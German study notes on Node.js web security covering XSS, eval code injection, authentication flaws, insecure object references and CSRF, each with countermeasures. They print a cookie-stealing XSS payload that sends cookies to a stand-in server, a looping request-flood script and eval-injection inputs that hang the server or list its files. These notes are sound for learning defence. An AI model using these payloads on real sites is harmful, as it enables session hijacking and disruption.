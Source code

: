 # Web Security

Motivation für Websecurity:

* Imageverlust, rechtliche Folgen/Haftung
* Später Einbau von Sicherheit ist aufwändig und unsicher

Vulnerability
: Angriffsmöglichkeit

Angriff / Attack Vector
: Details/Schritte einer Angriffsmöglichkeit

Malitious Code
: Angriffs-Code, Schadcode

Injection Attack
: Angriff bei dem einem System Code zur Ausführung untergeschoben wird

XSS
: Cross Site Scripting. Eine Angriffsmethode bei der in einer Web-Seite im Browser des Opfers eingeschleustes JavaScript zur ausgeführt wird. XSS würden besser als “JavaScript Browser Injection“ Attacken bezeichnet werden.

## Cross-Site-Scripting (XSS)
> drei wirksame Massnahmen,um Webapp abzusichern
> → Umsetzen können: PRÜFUNG?!

Bei XSS wird der Server Server bzw. die Daten des Servers so manupuliert, dass Schadcode (JavaScript) eines Angreifers an Nutzer (Opfer) ausgeliefert wird und im Browser dieser Nutzer ausgeführt wird.

### Beispiel

Von Nutzern in einem Formular eingegebene Daten werden ohne "escaping"/Nachbereitung an andere Nutzer ausgeliefert - beispielsweise alle Username in Admin-Konsole.

Folgender Input sendet das cookie der aktuellen seite an einen anderen Server.

```html
fakeUser<script>document.body.innerHTML +=
    '<img src="http://localhost:8081/?cookie='
    + escape(document.cookie) + '">';</script>
```

Der Angreiffer bekommt nun das Cookie und kann mit dem die Session übernehmen:
```js
document.cookie = unescape(cookie);
```

Mit XSS wäre auch ein DDos Angriff möglich
```html
<script>function ddos(){
    document.body.innerHTML += <img src="http://path-to-vulnerable-resource/">;
    setTimeout(function(){ddos()}, 2000)};
    ddos();
</script>
```

### Gegenmassnahmen
* Kontext-sensitives Data Encoding aka. "escaping". bzw. Input Validierung bei der Entgegennahme der Daten
* Content Security Policy (CSP) im Header setzen: z.B. nur die Source Domain und eine REST Service darf kontaktiert werden.
* Bei Cookies soweit möglich das HTTPOnly Flag setzen

```js
app.use(express.session({
    secret: "server secret",
    key: "sessionId",
    cookie: {
        httpOnly: true,
        secure: true
    }
}))
```

!!! todo

    Evtl [konkrete escaping Tabelle](http://nodegoat.herokuapp.com/tutorial/a3) einbinden

→ Verbesserung des Encodings / Filtering

## JS Code Injection
Angreifer kann den Server dazu bringen, vom Angreifer eingeschleuster code Auszuführen. Bei Node ist das JavaScript - könnte in anderem Kontext aber bsp. Python oder PHP Code sein.

### Beispiel
```js
// Insecure use of eval() to parse inputs
var preTax = eval(req.body.preTax);

// Geht aber auch mit setTimeout, setInterval
window.setTimeout("alert('Hello World!');", 500);
// und new Function
new Function("return x;");
```

Mögliche Möglicher Angriff

```js
while(true){/*Loop forever*/}
```

```js
res.end(require('fs').readdirSync('.').toString())
```

### Gegenmassnahmnen

* EVAL ist EVIL.
* `parseInt` und `JSON.parse` verwenden.
* Globale Scopes und Variablen reduzieren.
* Rechenintensive Tasks mit `childprocess.spawn` auslagern
* Node nicht als Root
* `x-powered-by` Header abstellen. `app.disable('x-powered-by');`

## Broken Authentication and Session Management

Bei Problemen bei der Authentisierung und dem Session Management können externe Angreifer oder **Angreifer** mit einem validen Login **auf Informationen zugreifen welche nicht für sie bestimmt sind**.

### Beispiele
* Passwort oder Token wird nicht verschlüsselt übertragen (Unabhängig  GET/POST) → Mit Sniffer auslesbar.
* Session Timeout ist zu lang
* Kennwörter unverschlüsselt in DB

### Gegenmassnahmen
* HTTPS Nutzen
* Session Timeout für sensible Daten und Operationen sinnvoll setzen.
* Kennwörter verschlüsselt in DB

## Insecure Direct Object References

Wenn eine Referenz auf ein intern implementiertes Objekt (Bsp. Datei, Verzeichnis oder DB-Key). Ohne Zugriffskontrolle oder andere Schutzmechanismen kann der Angreiffer über diese Referenzen unberechtigte Daten verändern.

### Beispiel
User ID nur in URL codiert `www.retureEasy.com/stockportfolio/:userId`, aber auf der Seite wird nicht geprüft, ob der Aktuelle user auch diese ID hat.

### Gegenmassnahmen
Bei alle Seiten mit benutzerspezifischen Daten vor der Anzeige sicher stellen, dass der eingeloggte User berechtigt ist, die Daten zu sehen/bearbeiten.

In Node können solche Checks mittels Middlewares implementiert werden.

```js
function requireLogin(req, res, next) {
    if (typeof(req.session.user_id) == "number") {
        next();
    } else {
        res.send(401, 'not authorized');
    }
}
```

## Cross Site Request Forgery
Eine CSRF Attacke zwingt den Browser des Opfers, einen gefälschten HTTP request (inklusive dessen Session-Cookie und anderen Authentifizierungsdaten) an einen verwundbaren webserver zu senden. Dies ermöglicht dem Angreiffer. Damit kann der Angreiffer über den Browser des Opfers ANfragen auf die verwundbare Appliatkion ausführen.


### Beispiele
Der Nutzer ist aktuell bei RetireEasy eingelogged, er wird aber (z.B. über einem Link in einem E- Mail) auf eine Seite mit Schadcode gelockt. Diese Seite generiert einen Formular-Post-Request auf die RetireEasy/profile Seite mit gefälschten Daten für das Profil.

### Gegenmassnahmen
* Generieren von server-seigigen Security Tokens.
* Einbetten in Formular (Hidden fields)
* Prüfen bei Request

## Top Overlooked Security Threats To NodeJS Web Applications

!!! seealso

    * http://nodegoat.herokuapp.com/tutorial
    * https://blog.risingstack.com/node-js-security-checklist/
